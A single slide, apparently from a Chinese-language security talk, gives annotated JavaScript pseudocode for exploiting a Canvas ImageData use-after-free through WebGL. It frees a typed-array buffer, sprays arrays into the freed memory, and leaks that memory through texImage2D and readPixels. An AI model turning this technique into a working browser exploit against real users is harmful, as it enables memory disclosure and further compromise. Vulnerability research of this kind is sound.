

04
Canvas ImageData UAF漏洞分析及利用：漏洞利用二

WebGL ImageData 利用伪代码

………
var texture = gl.createTexture();
gl.bindTexture(gl.TEXTURE_2D, texture);
var fb = gl.createFramebuffer();
gl.bindFramebuffer(gl.FRAMEBUFFER, fb);
gl.framebufferTexture2D(gl.FRAMEBUFFER, gl.COLOR_ATTACHMENT0, gl.TEXTURE_2D, texture, 0);
………
var imageData = new ImageData(ta, dimension, dimension);
Free(ta.buffer);
CollectGarbage();
Allocate_array();
………
gl.texImage2D(gl.TEXTURE_2D, level, internalFormat, format, type, imageData);
ta1 = new Uint8Array(buffersize);
gl.readPixels(0, 0, dimension, dimension, gl.RGBA, gl.UNSIGNED_BYTE, ta1);

// readPixels方法需要先创建一个framebuffer
//绑定一个framebuffer
//可以在framebuffer上attach一个texture

//释放ta.buffer并GC
//用整数数组对象占位释放的ta.buffer区域

// texImage2D方法可以将ImageData对象中的内容写入Texture

// readPixels方法可以通过Framebuffer把Texture的内容读出来